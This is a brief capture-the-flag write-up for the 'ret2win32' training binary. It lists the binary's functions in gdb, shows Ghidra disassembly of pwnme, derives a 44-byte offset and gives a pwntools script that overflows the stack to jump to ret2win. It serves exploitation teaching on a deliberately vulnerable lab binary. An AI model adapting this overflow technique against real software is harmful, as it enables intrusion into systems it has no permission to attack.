

# List Function
```bash
(gdb) info functions
```

```C
Non-debugging symbols:
0x08048374  _init
0x080483b0  read@plt
0x080483c0  printf@plt
0x080483d0  puts@plt
0x080483e0  system@plt
0x080483f0  __libc_start_main@plt
0x08048400  setvbuf@plt
0x08048410  memset@plt
0x08048420  __gmon_start__@plt
0x08048430  _start
0x08048470  _dl_relocate_static_pie
0x08048480  __x86.get_pc_thunk.bx
0x08048490  deregister_tm_clones
0x080484d0  register_tm_clones
0x08048510  __do_global_dtors_aux
0x08048540  frame_dummy
0x08048546  main
0x080485ad  pwnme
0x0804862c  ret2win
```

Our Target: `0x0804862c  ret2win`

# Ghidra
```C
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined pwnme()
             undefined         AL:1           <RETURN>
             undefined1        Stack[-0x2c]:1 local_2c                                XREF[2]:     080485ba(*), 
                                                                                                   0804860b(*)  
                             pwnme                                           XREF[3]:     main:0804858b(c), 08048854, 
                                                                                          0804890c(*)  
        080485ad 55              PUSH       EBP
```

We have to overwrite 0x2c or 44 bytes to get to the EIP

# Exploit

```python
#!/bin/python
from pwn import *
target = process('./ret2win32')
payload = b'A'*44+b'\x2c\x86\x04\x08'
target.sendline(payload)
print(target.recv())
target.interactive()
```

